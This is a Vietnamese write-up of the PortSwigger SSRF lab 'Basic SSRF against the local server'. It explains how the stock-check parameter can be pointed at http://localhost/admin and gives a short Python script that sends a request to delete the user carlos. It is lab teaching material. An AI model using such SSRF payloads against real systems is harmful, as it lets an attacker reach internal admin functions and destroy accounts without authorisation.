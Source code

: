 <li>Đoạn code trên in ra nội dung trang web thông qua tham số url được truyền bởi người dùng bằng hàm file_get_contents(), Ví dụ với url=http://localhost:8080</li>

## 1. Lab: Basic SSRF against the local server

link: https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost

### Đề bài

![image](https://hackmd.io/_uploads/Hk4AaIFta.png)

### Phân tích

<ul>
    <li>chúng ta cần leo thang đặc quyền lên admin và xóa người dùng carlos </li>
    <li>bài lab này có yêu cầu dữ liệu api từ bên trong hệ thống server nên chúng ta có thể tận dụng lỗi ssrf để thực hiện mục đích</li>
</ul>

![image](https://hackmd.io/_uploads/rkP9gvYYp.png)

![image](https://hackmd.io/_uploads/S1FYgPtYT.png)

![image](https://hackmd.io/_uploads/SJNTlwtYa.png)

Khi thực hiện Check stock, một POST request gửi đến /product/stock với body là địa chỉ đường dẫn một API. Có thể hiểu rằng server query lên API lấy kết quả trước khi trả về cho người dùng.

```
http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Hệ thống nhận stockApi là url (tin tưởng là local rồi) nên trả về số lượng hàng tồn kho như yêu cầu

### Khai thác

mình có thể SSRF - sử dụng chính stockApi này để query lên các local URL. Để solve challenge, ta sẽ vào `http://localhost/admin` và xóa người dùng carlos.

![image](https://hackmd.io/_uploads/SkRc6l9Fa.png)

và mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup
import base64
from urllib.parse import quote

url = 'https://0a8100f203d07f528234351500340006.web-security-academy.net'

session = requests.Session()

data = 'stockApi=http://localhost/admin/delete?username=carlos'

response = requests.post(
    url + '/product/stock',
    data=data,
    verify=False,
)

# print(response.text) # hiển thị response có flag
```